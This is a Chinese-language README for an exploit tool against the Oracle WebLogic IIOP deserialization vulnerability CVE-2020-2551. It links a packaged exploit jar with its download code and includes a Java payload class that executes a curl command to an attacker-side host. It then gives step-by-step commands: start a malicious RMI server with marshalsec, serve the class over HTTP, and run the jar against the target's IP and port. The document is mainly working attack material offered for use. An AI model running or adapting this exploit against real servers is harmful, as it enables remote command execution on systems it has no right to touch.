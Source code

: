 ## 更新
更新原版本（https://github.com/Y4er/CVE-2020-2551.git）遇到为私有地址的服务器无法直连检测问题。


## 参考
https://xz.aliyun.com/t/7498< br >
https://xz.aliyun.com/t/7374#toc-13< br >



## CVE-2020-2551
Weblogic IIOP 反序列化

## 测试环境
Weblogic10.3.6+jdk1.6

[打包好的jar包](https://pan.baidu.com/s/1WancKEtKzXDxwWP0zz3QPg) 提取码：a6ob 

## 漏洞利用
下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java
```java
package payload;

import java.io.IOException;

public class exp {

    public exp() {
        String cmd = "curl http://172.16.1.1/success";
        try {
            Runtime.getRuntime().exec(cmd).getInputStream();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

**尽量使用和weblogic相同的jdk版本和依赖库(wlfullclient.jar)编译** 然后本地起一个web服务器

```
python -m http.server --bind 0.0.0.0 80
```

命令行运行jar包
```
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
```
实际效果如图
![image](https://user-images.githubusercontent.com/40487319/75524749-81804100-5a49-11ea-8409-20746ca09299.gif)

## 参考

https://y4er.com/post/weblogic-cve-2020-2551/
